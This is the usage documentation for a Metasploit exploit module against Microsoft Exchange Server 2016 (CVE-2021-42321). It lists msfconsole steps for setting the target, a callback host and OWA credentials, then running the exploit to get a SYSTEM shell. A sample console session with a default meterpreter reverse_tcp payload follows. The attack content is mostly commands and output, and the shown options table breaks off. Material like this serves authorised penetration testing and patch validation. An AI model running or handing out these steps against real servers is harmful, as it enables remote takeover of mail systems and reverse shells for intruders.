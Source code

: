 1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set HttpUsername <username of OWA user to log in as>`
6. `set HttpPassword <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

Windows Command

### 1

Windows Dropper
### 2

PowerShell Stager

## Options

### HttpUsername

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### HttpPassword

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2016 CU22 (Build 15.1.2375.7) on Windows Server 2016 x64 (CVE-2021-42321)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b